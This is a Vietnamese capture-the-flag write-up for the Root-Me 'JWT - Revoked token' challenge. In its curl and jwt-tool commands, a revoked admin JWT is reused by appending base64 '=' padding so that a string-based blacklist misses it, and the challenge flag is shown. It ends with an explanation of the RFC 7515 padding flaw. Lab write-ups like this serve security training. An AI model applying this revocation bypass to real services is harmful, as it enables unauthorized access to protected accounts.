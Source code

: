 # JWT - Revoked token

## Solution

Yêu cầu một token

```
$ curl -X POST http://challenge01.root-me.org/web-serveur/ch63/login --data '{"username":"admin","password":"admin"}' -H "Content-Type: application/json"
{"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE1ODU1OTc2NzEsIm5iZiI6MTU4NTU5NzQ5MSwiZnJlc2giOmZhbHNlLCJpZGVudGl0eSI6ImFkbWluIiwidHlwZSI6ImFjY2VzcyIsImlhdCI6MTU4NTU5NzQ5MSwianRpIjoiODJhZjY4MDItNzY3YS00MDcyLWFiNzctZTBiYTBmZjVkYTAwIn0.lVhyikUFE-cAaSPH3gbvdDMkCJaLgV5xmzjEsBzw3pU"}
```

Cố gắng truy cập admin bằng token

```
$ curl -X GET http://challenge01.root-me.org/web-serveur/ch63/admin -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE1ODU1OTc2NzEsIm5iZiI6MTU4NTU5NzQ5MSwiZnJlc2giOmZhbHNlLCJpZGVudGl0eSI6ImFkbWluIiwidHlwZSI6ImFjY2VzcyIsImlhdCI6MTU4NTU5NzQ5MSwianRpIjoiODJhZjY4MDItNzY3YS00MDcyLWFiNzctZTBiYTBmZjVkYTAwIn0.lVhyikUFE-cAaSPH3gbvdDMkCJaLgV5xmzjEsBzw3pU'
{"msg":"Token has expired"}
```

Token đã hết hạn, kiểm tra tuổi thọ của nó:

```
$ jwt-tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE1ODU1OTc2NzEsIm5iZiI6MTU4NTU5NzQ5MSwiZnJlc2giOmZhbHNlLCJpZGVudGl0eSI6ImFkbWluIiwidHlwZSI6ImFjY2VzcyIsImlhdCI6MTU4NTU5NzQ5MSwianRpIjoiODJhZjY4MDItNzY3YS00MDcyLWFiNzctZTBiYTBmZjVkYTAwIn0.lVhyikUFE-cAaSPH3gbvdDMkCJaLgV5xmzjEsBzw3pU

  $$$$$\ $$\      $$\ $$$$$$$$\  $$$$$$$$\                  $$\
  \__$$ |$$ | $\  $$ |\__$$  __| \__$$  __|                 $$ |
     $$ |$$ |$$$\ $$ |   $$ |       $$ | $$$$$$\   $$$$$$\  $$ |
     $$ |$$ $$ $$\$$ |   $$ |       $$ |$$  __$$\ $$  __$$\ $$ |
$$\   $$ |$$$$  _$$$$ |   $$ |       $$ |$$ /  $$ |$$ /  $$ |$$ |
$$ |  $$ |$$$  / \$$$ |   $$ |       $$ |$$ |  $$ |$$ |  $$ |$$ |
\$$$$$$  |$$  /   \$$ |   $$ |       $$ |\$$$$$$  |\$$$$$$  |$$ |
\______/ \__/     \__|   \__|$$$$$$\__| \______/  \______/ \__|
Version 1.3.2                \______|                          


=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = HS256
[+] typ = JWT

Token payload values:
[+] exp = 1585597671    ==> TIMESTAMP = 2020-03-30 21:47:51 (UTC)
[+] nbf = 1585597491    ==> TIMESTAMP = 2020-03-30 21:44:51 (UTC)
[+] fresh = False
[+] identity = admin
[+] type = access
[+] iat = 1585597491    ==> TIMESTAMP = 2020-03-30 21:44:51 (UTC)
[+] jti = 82af6802-767a-4072-ab77-e0ba0ff5da00

Seen timestamps:
[*] exp was seen
[-] nbf is earlier than exp by: 0 days, 0 hours, 3 mins
[-] iat is earlier than exp by: 0 days, 0 hours, 3 mins
[-] TOKEN IS EXPIRED!

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------
```

Token chỉ có hiệu lực trong 3 phút. Hãy cố gắng nhanh hơn lần này.

```
$ curl -X GET http://challenge01.root-me.org/web-serveur/ch63/admin -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE1ODU1OTg0NTcsIm5iZiI6MTU4NTU5ODI3NywiZnJlc2giOmZhbHNlLCJpZGVudGl0eSI6ImFkbWluIiwidHlwZSI6ImFjY2VzcyIsImlhdCI6MTU4NTU5ODI3NywianRpIjoiMWNiN2M4MzktNjMyZC00MzhjLTkwNjktMTkzMWNhNzE2ZTUwIn0.A0ug7IWXcIIfnKjyxa8BygqfYq9f7CiPUHsFMCNXuBY'
{"msg":"Token is revoked"}
```

Lần này, với một token chưa hết hạn, nó sẽ nói rằng token đã bị thu hồi.

Thay vì thu hồi/đưa JTI (ID JWT) vào danh sách đen, nên thu hồi toàn bộ chuỗi JWT hoặc một hàm băm của chuỗi đó.

Vì vậy, bằng cách thêm phần đệm, chuỗi/hàm băm sẽ thay đổi nhưng token vẫn sẽ giống nhau và không thực sự bị thu hồi.

Vì vậy, chỉ cần thêm `=` (base64 padding).

```
jwt1=$(curl -s -X POST http://challenge01.root-me.org/web-serveur/ch63/login --data '{"username":"admin","password":"admin"}' -H "Content-Type: application/json" | jq '.access_token' | tr -d '"')
curl -X GET http://challenge01.root-me.org/web-serveur/ch63/admin -H "Authorization: Bearer $jwt1="

{"Congratzzzz!!!_flag:":"Do_n0t_xXxXxX_3nc0d3dTokenz_MxXxXe,XxX_th3_XxI_f1xXd"}
```

Lưu ý: Trong thực tế, điều này không hiệu quả vì trong RFC 7515 có nói rằng base64 được sử dụng là base64 an toàn cho URL, do đó cần loại bỏ phần đệm.

Để chấp nhận padding, nhà phát triển có thể giải mã thủ công từng phần trong 3 phần của JWT hoặc không triển khai các hàm mã hóa và giải mã base64url mà không cần đệm dựa trên các hàm mã hóa và giải mã base64 chuẩn sử dụng phần đệm như đã giải thích trong [Phụ lục C của RFC 7515](https://tools.ietf.org/html/rfc7515#appendix-C).
